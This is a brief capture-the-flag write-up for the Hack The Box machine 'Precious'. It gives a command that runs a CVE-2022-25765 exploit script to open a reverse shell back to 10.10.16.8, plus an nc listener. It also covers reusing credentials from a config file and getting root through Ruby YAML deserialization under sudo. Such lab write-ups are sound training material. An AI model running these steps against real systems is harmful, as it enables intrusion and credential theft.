









Nmaping the ip give to us:
Since pasting the ip into the browser did not connect, we need to add to /etc/hosts file for DNS.
The box info tells us it is vulnerable to CVE-2022-25765
Running exploit this github page, we can get a reverse shell.
python3 exploit-CVE-2022-25765.py -s 10.10.16.8 1008 -w http://precious.htb -p url
sudo nc -lvnp 1008
In the home directory the .bundle is found with a config file holding the creds to Henry.
We ssh into henry and get the first flag, user.txt.
Running sudo -l we find henry has access to update_dependencies.rb.
Trying to run the update_dependencies.rb we get an error.
Google for ruby deserialization: github
I would make the dependences.yml in /dev/shm with nano, and the Universal gadget for ruby 2.x - 3.x. script.
Running the script would show the ID of having root
Changing the script's part of git_set to /bin/bash will get into root, and the flag.
 